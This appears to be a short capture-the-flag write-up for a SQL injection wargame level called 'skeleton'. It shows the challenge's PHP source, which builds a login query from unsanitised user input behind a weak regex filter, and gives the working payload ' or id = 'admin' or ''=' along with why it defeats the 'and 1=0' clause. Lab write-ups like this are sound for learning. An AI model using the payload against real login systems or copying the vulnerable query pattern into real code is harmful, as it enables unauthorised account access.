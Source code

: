 ```php
query : select id from prob_skeleton where id='guest' and pw='' and 1=0
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```

Explain:

```php 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0";  // and make condition this query return false, not solv this lab
```
this $query above meaning: select id from prob_skeleton table with id is guest and pw is my input and 1=0,

`and` make query always return `false` because `and` make satisfy all conditions, `1=0 `ís false condition 

bypass this using `or` operator, `or` operator just get data when query satisfy only one condition not all conditions like `and` operator

Payload: `' or id = 'admin' or ''='`

Explain payload: 

this payload will select id is admin regardless of other conditions. That is the difference between `or` and `and`.

`or ''='` because this payload was put between single quotes so let bypass single quotes using payload. meaning `null string` compare `null string`


